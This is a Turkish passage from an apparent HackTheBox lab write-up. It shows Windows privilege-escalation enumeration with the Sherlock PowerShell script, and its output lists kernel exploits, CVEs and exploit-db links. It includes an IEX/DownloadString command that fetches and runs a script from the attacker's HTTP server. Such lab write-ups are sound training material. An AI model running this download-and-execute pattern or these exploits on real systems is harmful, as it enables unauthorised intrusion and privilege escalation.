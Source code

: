 
Eğer **Watson**'ı çalıştırmak isteseydim, onu indirip mevcut olan .NET sürümlerinden birine uygun şekilde derleyerek çalıştırabilirdim, ancak bunu hızlı bir şekilde başaramadım. Bunun yerine, bu sistemin çok eski olmasından dolayı, Watson'ın öncülü olan **[Sherlock](https://github.com/rasta-mouse/Sherlock)**'a yöneldim. Sherlock ve Watson'ı yaklaşık 2.5 yıl önce [**Bounty**](https://0xdf.gitlab.io/2018/10/27/htb-bounty.html#enumeration) yazımda göstermiştim.

**Sherlock**, bir PowerShell scriptidir. Bir kopyasını indirip inceledim ve birçok fonksiyon tanımladığını, ancak bunları çağırmadığını gördüm. Bunun üzerine, scriptin sonuna `Find-AllVulns` fonksiyonunu çağıran bir satır ekledim. Daha sonra, bir Python HTTP sunucusu kullanarak bu scripti barındırdım ve shell elde ettiğim yöntemle çalıştırdım.

```
PS C:\> IEX(New-Object Net.WebClient).downloadstring('http://10.10.14.10/Sherlock.ps1')
                                                    
Title      : User Mode to Ring (KiTrap0D)
MSBulletin : MS10-015              
CVEID      : 2010-0232
Link       : https://www.exploit-db.com/exploits/11199/
VulnStatus : Not supported on 64-bit systems

Title      : Task Scheduler .XML
MSBulletin : MS10-092                       
CVEID      : 2010-3338, 2010-3888
Link       : https://www.exploit-db.com/exploits/19930/
VulnStatus : Not Vulnerable
                                                    
Title      : NTUserMessageCall Win32k Kernel Pool Overflow
MSBulletin : MS13-053                     
CVEID      : 2013-1300
Link       : https://www.exploit-db.com/exploits/33213/
VulnStatus : Not supported on 64-bit systems
                                                    
Title      : TrackPopupMenuEx Win32k NULL Page
MSBulletin : MS13-081                   
CVEID      : 2013-3881
Link       : https://www.exploit-db.com/exploits/31576/
VulnStatus : Not supported on 64-bit systems
                                                    
Title      : TrackPopupMenu Win32k Null Pointer Dereference
MSBulletin : MS14-058
CVEID      : 2014-4113
Link       : https://www.exploit-db.com/exploits/35101/
VulnStatus : Not Vulnerable

Title      : ClientCopyImage Win32k
MSBulletin : MS15-051
CVEID      : 2015-1701, 2015-2433
Link       : https://www.exploit-db.com/exploits/37367/
VulnStatus : Not Vulnerable

Title      : Font Driver Buffer Overflow
MSBulletin : MS15-078
CVEID      : 2015-2426, 2015-2433
Link       : https://www.exploit-db.com/exploits/38222/
VulnStatus : Not Vulnerable

Title      : 'mrxdav.sys' WebDAV
MSBulletin : MS16-016
CVEID      : 2016-0051
Link       : https://www.exploit-db.com/exploits/40085/
VulnStatus : Not supported on 64-bit systems

Title      : Secondary Logon Handle
MSBulletin : MS16-032
```